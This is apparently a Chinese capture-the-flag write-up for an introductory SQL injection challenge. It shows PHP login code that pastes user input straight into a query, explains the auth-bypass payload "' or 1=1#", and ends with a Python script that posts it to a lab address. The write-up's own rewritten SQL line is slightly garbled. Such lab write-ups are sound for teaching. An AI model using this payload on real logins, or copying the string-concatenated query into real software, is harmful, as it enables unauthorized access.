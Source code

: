 # bear的注入

## 出题思路

入门级SQL注入题，即使你不知道什么是SQL注入，也完全可以使用网上搜到的万能密码从而获取flag。

## 解题思路

定位到`login.php`中的这一句

```php
$username = $_POST['username'];
$password = $_POST['password'];

$sql="SELECT * FROM users WHERE username='$username' and password='$password'";
```

用户上传的username和password被拼接到了SQL语句中，这个SQL语句将会被执行。

正常的程序逻辑

```
从users表中查询是否有username = 上传的username 并且 password = 上传的password的用户
```

此时我们可以看到，上传的数据只作为数据校验的，本身不完成逻辑操作。

当上传`username=admin&password=123' or 1=1#`之后

SQL语句变化

```sql
SELECT *users where username='admin' and password='123' or 1=1#'
```

程序的逻辑

```
从users表中查询是否有(username = 上传的username 并且 password = 上传的password) 或者 1=1
```

1=1是一个恒等式，那么此时的筛选条件也就失去了意义，将会从表中筛选出全部的用户，顺利地实现了登录

## 解题脚本

```python
import requests


url = 'http://192.168.80.128:8848/login.php'

data = {
    'username':'admin',
    'password':"123' or 1=1#"
}

r = requests.post(
    url = url,
    data = data
)

print(r.text)
```

